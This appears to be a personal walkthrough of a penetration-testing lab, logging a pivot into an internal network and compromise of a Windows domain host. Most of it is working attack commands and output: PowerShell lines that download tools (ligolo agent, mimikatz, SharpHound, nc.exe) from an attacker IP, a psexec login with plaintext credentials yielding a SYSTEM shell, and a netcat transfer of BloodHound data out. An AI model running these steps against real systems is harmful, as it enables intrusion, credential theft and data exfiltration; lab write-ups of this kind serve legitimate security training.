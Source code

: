 Had good luck with ligolo in the past lets try again..

```powershell
iwr -uri "http://192.168.45.228:8888/agent.exe" -outfile "C:\Users\Public\Downloads\agent.exe"
```

# ligolo setup

on attack box
```bash
 sudo ip tuntap add user <username> mode tun ligolo

 sudo ip link set ligolo up

 ./poxy -selfcert
```

on victem

``` powershell
.\agent -connect 192.168.45.228:11601 -ignore-cert
```

Forgot to add here, that we need to run ifconfig to check and see if there are other connections to the box. this was done here, and the connection to the 172.16.201.xx network was found. 

on attack box

``` bash 
 sudo ip route add <network_address>/<CIDR> dev ligolo
```

I ran a full scan of all targets last night but was taking a long time. In most cases, I would go thru the data I already had, and look for a box to narrow in on scanning again, As I have experience with this box already, I have gone from my old notes, and saw that I went into the .11 box next. I am avoiding using my old notes to continue on, I want to see what I see with autorecon, and running a narrowed scan on .11

I see that SMB ports are open, reminder to self, autorecon takes its time ill have to look into ways to speed it up if possible, also junks up the pipe so much I dont think I can try other things..

And my thoughts were right, auto reacon really junks the env. I dont know if i would use this in a live env. But for this it is good enough.. 

I am in .11 with

```bash
┌──(zell㉿kali)-[~/…/Medtech/results/192.168.201.121/exploit]
└─$ /usr/local/bin/psexec.py medtech.com/joe:Flowers1@172.16.201.11
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 172.16.201.11.....
[*] Found writable share ADMIN$
[*] Uploading file lQUmnaEf.exe
[*] Opening SVCManager on 172.16.201.11.....
[*] Creating service OhHA on 172.16.201.11.....
[*] Starting service OhHA.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.169]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /all
 
USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner    
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled 
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled 
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled 
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled 
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled 
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled 
SeCreatePermanentPrivilege                Create permanent shared objects                                    Enabled 
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Enabled 
SeAuditPrivilege                          Generate security audits                                           Enabled 
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled 
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled 
SeCreateGlobalPrivilege                   Create global objects                                              Enabled 
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled 
SeTimeZonePrivilege                       Change the time zone                                               Enabled 
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled 
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled 

ERROR: Unable to get user claims information.

C:\Windows\system32>
C:\Windows\system32>
```

Starting as NT/ system, meaning I have the flag, lets look for creds, also, this is a domain machine, time for bloodhound i think


pulling sharphound and mimikatz

``` powershell
iwr -uri "http://192.168.45.228:8888/SharpHound.exe" -outfile "C:\Users\joe\Downloads\sharp.exe"
```

``` powershell
iwr -uri "http://192.168.45.228:8888/mimikatz.exe" -outfile "C:\Users\joe\Downloads\mimikatz.exe"
```

Starting sharphound

``` powershell
.\sharp.exe --CollectionMethods All
```

Trying to extract bloodhound results with nc

``` powershell
iwr -uri "http://192.168.45.228:8888/nc.exe" -outfile "C:\Users\joe\Downloads\nc.exe"
```

```powershell
.\nc.exe -l -p 4444>20231231101949_BloodHound.zip
```



